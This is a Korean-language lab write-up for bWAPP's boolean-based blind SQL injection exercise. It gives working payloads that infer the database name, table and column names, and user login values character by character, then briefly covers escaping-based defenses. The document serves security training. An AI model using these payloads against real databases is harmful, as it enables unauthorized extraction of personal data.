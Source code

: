 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind - Boolean-Based"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### Boolean - Based

![image-20220317013803688](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317013803688.png)

- 참 거짓을 이용해야 하기 때문에
- 참, 거짓일 때의 반응 살펴보기

![image-20220317013920795](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317013920795.png)

- 참

![image-20220317013942282](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317013942282.png)

- 거짓

<br>

### DB 조회

![image-20220317014200725](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317014200725.png)

`' or length(database())=1#`

- 이런식으로 DB의 길이를 하나하나 참 거짓으로 대입해봐서 알아내면 됨

 `' or ascii(substring(database(),1,1))>=97#` 

- DB 길이를 알아내고 문자를 알아내야 하는데
- ascii 명령어를 통해 대문자인지 소문자인지를 먼저 구분하고

`' or substring(database(),1,1)='a'#`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

```
SUBSTR(str, pos, len)
```

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

<br>

### 테이블 조회

![image-20220317015039652](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317015039652.png)

`' or length((select table_name from information_schema.tables where table_type='base table' and table_schema='bWAPP' limit 0,1))=1#`

- 이 또한 length 를 구해주고

`' or ascii(substring((select table_name from information_schema.tables where table_type='base table' and table_schema='bWAPP' limit 0,1),1,1))>96#`

- 대소문자 구분

`' or substring((select table_name from information_schema.tables where table_type='base table' and table_schema='bWAPP' limit 0,1),1,1)='a'#`

- 문자 대조를 통해 구할 수 있다.
- 손이 많이 가지만 하다보면... 모르겠다..

<br>

### 컬럼 조회

![image-20220317015241761](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317015241761.png)

`' or length((select column_name from information_schema.columns where table_name='heroes' limit 1,1))=1#`

- length 구하고

`' or ascii(substring((select column_name from information_schema.columns where table_name='heroes' limit 1,1),1,1))>96#`

- 대소문자 구분

`' or substring((select column_name from information_schema.columns where table_name='heroes' limit 1,1),1,1)='a'#`

- 문자 대조

<br>

### 컬럼 속성

![image-20220317015417408](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317015417408.png)

`' or length((select login from heroes limit 0,1))=3 #`

- length

`' or ascii(substring((select login from heroes limit 0,1),1,1))>96#`

- 대소문자 구분

`' or substring((select login from heroes limit 0,1),1,1)='a'#`

- 대조
- 끝까지 해주면 개인정보를 확인할 수 있다.

<br>

<br>

## 대응방안

### Linux

![image-20220318002544545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002544545.png)

![image-20220318002653266](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002653266.png)

- vi 편집기로 sqli_4.php 소스코드를 열어준다.
- level 1 : sqli_check_1 함수 사용
- level 2 : sqli_check_2 함수 사용

<br>

### functions_external.php

![image-20220317235926576](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317235926576.png)

- addslashes : 특수 문자(',",/) 앞에 역슬래시를 삽입하여 특수문자 기능을 문자로 이스케이프하는 함수
  - 인코딩된 태그나 스크립트가 들어오면 바로 디코딩되기 때문에 보안 허점 발생
- mysql_real_escape_string : PHP에서 SQL Injection 공격 등을 방어하기 위하여 특수 문자열을 이스케이프 하기 위한 함수
  - `\x00, \n, \r, \, ', ", \x1a`와 같은 문자 앞에 `\`(역슬레시)를 붙여서 해당 문자가 실제 작동하지 않도록 이스케이프 해준다.
  - addslashes 보다 처리할 수 있는 문자들이 더 많음
